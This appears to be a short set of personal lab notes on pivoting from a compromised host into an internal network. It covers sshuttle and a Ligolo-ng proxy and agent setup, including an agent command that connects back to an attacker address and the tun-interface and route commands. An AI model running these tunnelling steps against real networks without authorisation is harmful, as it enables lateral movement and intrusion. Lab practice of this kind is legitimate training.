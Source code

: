 Let's see among the 5 host which we can ping ?_?

So 1st thing that came to my mind is sshuttle 
```
sshuttle -r linux-admin@10.201.11.33 -N
```
![[Pasted image 20240822204612.png]]


```
http://10.201.11.30/
```
![[Pasted image 20240822205040.png]]

So it was simple but but let's try it a different tool that i am trying to use for a long time
and yes you have guessed it right.


## Ligolo-ng

Let's set up the agent and upload the proxy in the compromised asset.

Proxy | Attacker :  10.51.9.13

Agent | Compromised Asset : 10.201.11.33

gunzip

tar -xvzf 

```
ip tuntap add user root mode tun ligolo
```

```
ip link set ligolo up
```

```
ip route add 10.201.11.0/24 dev ligolo
```

![[Pasted image 20240823110914.png]]



## Attacker
```
sudo ./proxy -selfcert
```


Compromised
```
chmod +x agent
```

```
./agent -connect 10.51.9.13:11601 -ignore-cert
```


So again the box got dead so i think i will not able to use option for some reason and wait for HTB dante.


Let's go with Sshuttle for now and see which attacks we can perform.
